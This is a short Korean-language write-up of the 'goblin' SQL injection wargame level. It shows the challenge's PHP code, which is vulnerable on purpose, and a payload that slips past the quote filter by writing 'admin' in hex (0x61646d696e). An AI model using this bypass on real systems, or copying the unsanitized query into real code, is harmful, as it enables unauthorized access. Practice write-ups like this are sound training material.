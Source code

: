 # LOS - goblin

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

문제에서 요구하는 것은 id를 admin으로 바꿔서 login하는 것이다. 

하지만 앞의 문제들과 다르게 quotes를 사용할 수 없어서 no만으로 추측해야 한다. 

일단 or id = admin같은 대입을 시도해보았으나 quotes가 없어서 뚫리지 않았다. 

no에 brute force로 대입해보았으나 1일때 guest를 출력해주는 것 말고는 딱히 뭐가 안보여서  admin이라는 글자를 hex로 인코딩해서 id값으로 넣어주었더니 admin으로 login되었다.

```python
>>> "admin".encode("hex")
'61646d696e'
```

```mysql
query : select id from prob_goblin where id='guest' and no=0 or id = 0x61646d696e
```

![1565238177068](C:\Users\qkrwl\Documents\web\los\LOS - goblin-clear.png)